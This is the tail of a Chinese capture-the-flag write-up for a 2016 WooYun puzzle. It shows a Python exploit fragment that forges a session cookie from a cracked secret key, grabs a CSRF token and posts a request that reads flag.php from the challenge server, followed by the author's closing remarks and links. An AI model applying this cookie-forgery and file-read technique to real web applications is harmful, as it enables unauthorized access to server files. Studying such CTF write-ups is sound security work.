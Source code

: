 	    headers = {"Accept-Encoding": "gzip, deflate",
	                "Accept-Language": "en-US,en;q=0.5",
	                "Cookie":"PHPSESSID=" + php_session +";userinfo=" + construct_cookie(new_secret_key),
	                "X-Requested-With" : "XMLHttpRequest",
	                "User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:32.0) Gecko/20100101 Firefox/32.0",
	                "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Connection": "keep-alive"}
	
	    url = "http://0dac0a717c3cf340e.jie.sangebaimao.com:82/"
	    csrf_token = get_csrf(r.get(url,headers=headers).text)
	    key_md5 = hash_mac_md5(act,new_secret_key)
	    print key_md5
	    post_data = {"act":act, "CSRF_TOKEN":csrf_token,"submit":"%E6%8F%90%E4%BA%A4", "key": key_md5,"method":"Read","filename":"flag.php"}
	    resppp = r.post(url,headers=headers, data = post_data)
	    print resppp.text
	
## 0x03 说在最后  

在我做到这一步的时候，官方writeup出来了，有人已经做出来了。环境也随之关闭了~  
当时读了几个文件，没找到flag在哪，正想着多读几个配置文件，就关了~~  

看了writeup后，最后一起读了那么多linux配置文件然后得到结果，思路不错。  
贴上链接，mark~     
[https://www.91ri.org/7911.html](https://www.91ri.org/7911.html "https://www.91ri.org/7911.html")    

## 0x04 源码  


[https://github.com/angelwhu/ctfs/blob/master/wooyun_puzzle_2016_3/php_rand.py](https://github.com/angelwhu/ctfs/blob/master/wooyun_puzzle_2016_3/php_rand.py)



	
	
